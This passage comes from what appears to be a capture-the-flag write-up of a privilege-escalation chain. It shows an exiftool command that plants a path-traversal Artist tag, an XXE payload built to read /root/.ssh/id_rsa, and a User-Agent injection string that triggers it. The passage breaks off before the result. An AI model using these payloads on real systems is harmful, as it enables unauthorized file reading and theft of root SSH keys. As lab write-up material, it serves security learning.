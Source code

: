 We note that `line` is a string passed to a function. We can poison it by by adding an extra `||` to our user agent and then providing a URI.

So, now we have all the information to perform our plan:

1. We create a jpg with `Artist` tag setted up in metadata and putting it in home directory
2. We create a XXE exploit with `_creds.xml` at the end of name and putting it in home directory. We set author tag to `damian`
3. We navigate to any part of the website with modified `User-Agent` to trigger the application
4. We read our `*_creds.xml` file

We noted that ssh is running, so we are trying to read `/root/.ssh/id_rsa` file.

## Privilege escalation

Let’s start performing our plan to get root, we’ll get a random jpg and add the necessary details to it.

```zsh
exiftool -Artist='../home/woodenk/vflamie' root.jpg
```

Our XXE exploit will look like that:

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../home/woodenk/root.jpg</uri>
    <hello>&ent;</hello>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```

We save this file as vflamie_creds.xml.

Then, we intercept our request to the page with BurpSuite and modifying User-Agent with this string:

```
||/../../../../../../../home/woodenk/root.jpg
```

Finally, we re-read our xml file:
